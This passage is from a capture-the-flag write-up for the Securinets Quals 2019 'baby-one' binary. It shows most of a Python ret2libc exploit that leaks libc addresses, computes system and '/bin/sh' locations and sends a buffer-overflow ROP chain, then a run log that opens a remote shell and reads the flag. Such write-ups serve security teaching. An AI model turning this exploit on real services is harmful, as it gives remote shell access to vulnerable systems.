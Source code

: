 ```python
print("[!] Write lib address libc: " + hex(libc_write))

p.recv(1024)
p.sendline(leak_libc(read_got))
libc_read = u64(p.recv(8))
print("[!] Write lib address libc: " + hex(libc_read))

# Our libc is in version libc6_2.23-0ubuntu10_amd64 

write_offset    = 0x0f72b0 
libc_base       = libc_write - write_offset

system_offset   = 0x045390
system_address  = libc_base + system_offset

sh_address      = libc_base + 0x18cd57 

pop_rdi         = 0x00000000004006c3

# Uncomment for debugging
#pid = util.proc.pidof('baby1')[0]
#print("[*] PID = " + str(pid))
#util.proc.wait_for_debugger(pid)

exploit = "A" * 56

exploit += p64(pop_rdi)
exploit += p64(sh_address)
exploit += p64(system_address)

p.sendline(exploit)
p.interactive()
```

Now we can pwn it and get the flag. 

```
w3ndige@main ~/D/c/s/baby-one> python2 exploit.py
[*] '/home/w3ndige/Development/ctf-solutions/securinets-quals-2019/baby-one/baby1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 51.254.114.246 on port 1111: Done
[!] Write lib address libc: 0x7f42deb672b0
[!] Write lib address libc: 0x7f42deb67250
[*] Switching to interactive mode
Welcome to securinets Quals!
$ ls 
baby1
flag.txt
main.c
$ cat flag.txt
securinets{controlling_rdx_for_the_win}
```